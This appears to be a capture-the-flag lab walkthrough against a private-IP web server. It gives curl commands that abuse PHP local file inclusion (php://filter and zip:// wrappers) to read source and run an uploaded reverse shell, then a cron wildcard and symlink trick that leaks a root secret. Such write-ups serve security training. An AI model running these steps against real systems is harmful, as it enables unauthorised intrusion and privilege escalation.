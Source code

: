 ![](../attachment/4320c61bd189f0ef41aaf9fba134e434.png)

![](../attachment/9e4875914ac77940362b8516224359ad.png)
There could be a possibility of LFI.

```
curl http://192.168.182.229/index.php?file=php://filter/read=convert.base64-encode/resource=home --path-as-is
```
![](../attachment/315339fca2132c6905c6e3db6908d0a9.png)
We get home.html
```
curl http://192.168.182.229/index.php?file=php://filter/read=convert.base64-encode/resource=home --path-as-is | base64 -d > home.html
```
There seems to be .php added to the end
![](../attachment/2a074574ef60aea8b045032c0aa559d0.png)
We can also get upload.php the same way:
```
curl http://192.168.182.229/index.php?file=php://filter/read=convert.base64-encode/resource=upload --path-as-is | base64 -d > upload.php
```
![](../attachment/304effa86d80cfa3921d1a0511a6a94e.png)

We can upload our reverse shell:
![](../attachment/87ede4f423624b87ad220c371d298e04.png)
We get click here to download the file:
![](../attachment/0977f8c3c5673b460e5129470e2820e2.png)
We get the name of the file. This zip will have our payload.php file.
```
curl http://192.168.182.229/index.php?file=zip://uploads/upload_1723720412.zip%23payload
```
We don't mention .php here because it seems `.php` is appended to the filename.

To get  a shell:
![](../attachment/8b8deede75e243a84a990c3b8c53fb39.png)

Running linpeas.sh:
![](../attachment/da94dd89ac296cfd1c5b05e23d089c0c.png)
We find root running a cron job.
![](../attachment/a5ca80f9294e9725f032dd388c53fe30.png)

We can do a wildcard spare trick:
![](../attachment/655468797dd5598fd5a99491bb44a8ec.png)Then we can use this to our advantage:
```
cd /var/www/html/uploads
touch @root.zip
ln -s /root/secret root.zip
```
Already enox.zip was present and linked to /root/secret so the password was already present:
![](../attachment/e7b03bddb2d865faa75de316047a1ec4.png)
We have the secret.
Using the password:
![](../attachment/a0683523af6f639e56a99c29419f4290.png)
We are root